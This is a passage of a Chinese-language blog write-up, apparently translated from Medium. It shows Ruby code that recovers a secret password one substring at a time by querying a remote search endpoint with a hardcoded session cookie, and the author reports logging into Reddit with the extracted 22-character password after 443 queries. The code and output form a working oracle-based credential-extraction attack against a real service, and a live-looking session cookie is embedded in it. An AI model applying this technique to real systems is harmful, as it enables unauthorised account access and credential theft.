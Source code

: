 ```
  COOKIE = 'code=13fa1fa011169ab29007fcad17b2ae; user_id=279789'
  @iterations = 0

  def self.get(query)
    @iterations += 1
    Faraday.get(BASE_URL, { qe: query }, Cookie: COOKIE).body
  end

  def self.include?(substring)
    get(substring).include?('password')
  end

  def self.iterations
    @iterations
  end
end

class ApiStub
  SECRET_PASSWORD = 'g420hpfjpefoj490rjgsd'
  @iterations = 0

  def self.include?(substring)
    @iterations += 1
    SECRET_PASSWORD.include?(substring)
  end
  
  def self.iterations
    @iterations
  end
end
```

接下来......就是见证奇迹的时刻。把 stub API 换成真实的 API，看看结果怎么样。

### 见证真相的时刻

上天保佑……

`PasswordCracker.new(Api).crack!`

<img class="progressiveMedia-noscript js-progressiveMedia-inner" src="https://cdn-images-1.medium.com/max/800/1*NR-y9WthtHg4DVjLDwikVA.gif">

（三倍速）

Boom. 443 次迭代。

赶紧去 Reddit 试了一下，成功登录。

哇噢。

真的有效。

回忆一下原来那个计算迭代数的公式：`A(N/2 + 2)`。真正的密码长度为 22，所以公式预计需要 `36 * (22/2 + 2) = 36 * 13 = 468` 次迭代。实际上用了 443 次迭代，所以估计值和观测值的误差在 5% 以内。
